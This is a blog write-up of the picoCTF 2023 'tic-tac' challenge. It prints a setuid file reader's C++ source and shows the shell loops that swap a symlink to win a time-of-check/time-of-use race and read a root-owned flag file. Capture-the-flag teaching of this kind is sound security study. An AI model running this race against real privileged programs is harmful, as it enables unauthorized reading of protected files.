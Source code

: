 +++
layout = "post"
draft = "false"
date = "2023-04-08"
title = "Binary Exploitation / tic-tac"
tags = ["writeup", "picoCTF", "binary exploitation", "toctou"]
+++

This is a write-up of my solution to these challenges from the [2023 picoCTF](/posts/2023_picoctf):

- Binary Exploitation / [tic-tac](https://play.picoctf.org/practice/challenge/380) (200 Points)

# tic-tac (200)
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

On launching the challenge instance, we get `ssh`-connection details.
In the home-folder of our user `ctf-player`, we find the `txtreader` executable,
which is owned by `root` and has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set:
```
$ ls -la
[...]
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

We can therefore execute it as `root` and it will print our own file `src.cpp` like `cat` would.
This does not work with `flag.txt` however,
since the binary seems to check the owner rights of files before it prints them:
```
$ ./txtreader src.cpp 
#include <iostream>
#include <fstream>
[...]

$ ./txtreader flag.txt 
Error: you don't own this file
```

The file `src.cpp` actually contains the source code of `txtreader`,
allowing us to look closer at how this check is performed:

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

A big hint to the solution is one of the challenges tags: `toctou`
This stands for [time of check / time of use](https://de.wikipedia.org/wiki/Time-of-Check-to-Time-of-Use-Problem),
a common problem, where the execution of some code depends on a check.
When there is a gap in time between the check and the dependent code,
another process could change the check condition in exactly this moment.

In the code above, the ownership of the file is checked before it is opened for reading.
If we manage to swap the file between these two operations,
the check might be performed on a different file that the one being read.
For this I create a dummy file that I own and a symbolic link to this file called `flag`:

```bash
echo "dummy file content" > dummy.txt
ln -s dummy.txt flag
```

I can now call the `txtreader` with this link and it will print my file:

```bash
$ ./txtreader flag
dummy file content
```

With a `while`-loop, I can change this link back and forth between `dummy.txt` and `flag.txt` as fast as possible.
I put this process in the background with `&`, so it keeps running:
```
$ while true; do ln -fs flag.txt flag; ln -fs dummy.txt flag; done &
[1] 61
```

Now all that's left to do is to try reading `flag` as often as possible
and filtering away all outputs that are not the flag:
```
$ while true; do ./txtreader flag; done 2>&1 | grep "picoCTF"
picoCTF{ToctoU_!s_3a5y_XXXXXXXX}
```
